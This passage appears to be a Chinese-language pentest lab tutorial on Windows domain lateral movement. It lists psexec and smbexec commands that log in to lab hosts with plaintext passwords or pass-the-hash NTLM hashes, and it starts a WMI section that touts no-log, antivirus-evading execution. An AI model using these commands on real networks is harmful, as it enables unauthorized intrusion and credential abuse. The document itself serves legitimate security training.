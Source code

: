 不用建立IPC直接提供明文账户密码（推荐）

```shell
psexec \\192.168.3.21 -u administrator -p Admin12345 -s cmd
psexec -hashes :$HASH$ ./administrator @10.1.2.3
psexec  -hashes :$HASH$ domain/administrator @10.1.2.3
psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator @192.168.3.32
```

利用明文成功

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-6.png)

利用hash失败，微软官方Pstools工具包中的psexec无法采用hash连接，只能明文连接。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-9.png)

#### smbexec工具：

- 非官方自带-参考impacket工具包使用，操作简单，容易被杀
- impacket工具包：
  - https://gitee.com/RichChigga/impacket-examples-windows
  - https://github.com/SecureAuthCorp/impacket

##### smbexec

无需先建立ipc链接、 明文或hash传递

```shell
smbexec god/administrator:Admin12345@192.168.3.21
smbexec ./administrator:admin!@#45@192.168.3.32
smbexec -hashes :$HASH$ ./admin@192.168.3.21
smbbexec -hashes :$HASH$ domain/admin@192.168.3.21
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
```

利用明文成功

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-7.png)

利用hash成功

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-8.png)

## 案例4：域横向移动 WMI 服务利用-cscript,wmiexec,wmic

**WMI** (Windows Management Instrumentation) 是通过135端口进行利用，支持用户名**明文**或者**hash**的方式进行认证，并且**该方法不会在目标日志系统留下痕迹**。



#### 自带WMIC 

- 明文传递 
- 优点是自带工具，不用考虑免杀
- 缺点是**无回显**, 需要想方法读取结果。
